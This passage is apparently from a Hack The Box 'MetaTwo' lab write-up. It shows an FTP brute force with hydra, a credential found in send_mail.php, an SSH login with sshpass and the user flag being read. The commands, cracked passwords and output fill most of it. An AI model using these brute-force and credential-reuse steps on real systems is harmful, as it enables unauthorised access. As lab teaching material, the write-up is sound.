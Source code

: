 ## TCP/21 (FTP) - Bruteforce
1. Bruteforce FTP w/ `hydra`
	```
	┌──(root💀kali)-[~/htb/metatwo/10.10.11.186/exploit]
	└─# hydra -L usernames.txt -P passwords.txt ftp://metapress.htb -I
	Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
	
	Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-29 09:30:51
	[DATA] max 12 tasks per 1 server, overall 12 tasks, 12 login tries (l:4/p:3), ~1 try per task
	[DATA] attacking ftp://metapress.htb:21/
	[21][ftp] host: metapress.htb   login: metapress.htb   password: 9NYS_ii@FyL_p5M2NvJ
	1 of 1 target successfully completed, 1 valid password found
	Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-29 09:31:03
	```
	> Valid Credential
	> - `metapress.htb:9NYS_ii@FyL_p5M2NvJ`
	{: prompt-info}


## TCP/21 (FTP) - Creds Found
1. Next, we use [`FileZilla`](https://filezilla-project.org/download.php) so that we can navigate FTP with ease
2. Download `mailer` directory
	![](Pasted%20image%2020221129101508.png)
3. Found a set of valid credential in `send_mail.php`
	![](Pasted%20image%2020221129101644.png)
> Valid Credential
> - `jnelson:Cb4_JmWM8zUZWMu@Ys`
{: prompt-info}


## TCP/22 (SSH)
1. Successfully SSH w/ `jnelson:Cb4_JmWM8zUZWMu@Ys`
	```
	┌──(root💀kali)-[~/htb/metatwo/10.10.11.186/ftp/metapress.htb]
	└─# sshpass -p 'Cb4_JmWM8zUZWMu@Ys' ssh jnelson@metapress.htb
	Linux meta2 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64
	
	The programs included with the Debian GNU/Linux system are free software;
	the exact distribution terms for each program are described in the
	individual files in /usr/share/doc/*/copyright.
	
	Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
	permitted by applicable law.
	Last login: Mon Nov 28 23:11:36 2022 from 10.10.14.103
	jnelson@meta2:~$ ls
	gpg.john  gzipped.tar.gz  pass  user.txt  wp-config.php  -z
	jnelson@meta2:~$ cat user.txt
	a78b080b1bf04536906f33fa36723af2
	jnelson@meta2:~$
	```
